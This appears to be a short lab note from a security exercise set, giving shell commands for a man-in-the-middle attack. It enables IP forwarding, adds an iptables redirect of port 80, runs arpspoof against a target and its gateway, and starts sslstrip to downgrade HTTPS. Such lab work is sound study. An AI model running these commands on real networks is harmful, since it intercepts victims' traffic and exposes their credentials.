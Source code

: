 change kernel configuration and iptables to forward traffic from one target to another (victim <-> gateway) -> arp poisoning -> ssl stripping


enable IP forwarding by kernel:  
`sudo sysctl net.ipv4.ip_forward=1`   
`sysctl` is a tool for examining and changing kernel parameters at runtime  
OR  
`sudo su` (sudoers don't have such priviledges :O)  
`echo "1" > /proc/sys/net/ipv4/ip_forward`  

for change persistent after reboot edit `/etc/sysctl.d/30-ipforward.conf`  
e.g.  
```
net.ipv4.ip_forward=1
net.ipv6.conf.default.forwarding=1
net.ipv6.conf.all.forwarding=1
```


Configure iptables:  
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 9999`  
`sslstrip` will listen on 9999, thus working only on to-be-redirected HTTPs  

`iptables` run as `systemd` service. To start on reboot you have to `enable` it.   
rules to be loaded are located in `/etc/iptables/iptables.rules` for `iptables.service` and in `/etc/iptables/ip6tables.rules` for `ip6tables.service`      
to save rules passed via cli to conf file: `iptables-save -f` `/etc/iptables/iptables.rules`   
if conf file edited - `reload` via `systemctl`   

ARP poisoning like in [zad8](./zad8.md)  
OR  
`sudo apt install dsniff` dsniff contains i.a. `arpspoof`  
`sudo arpspoof -i eth0 -t <targetIP> <IP I'm supposed to be (gateway)>`

`sslstrip -l 9999`     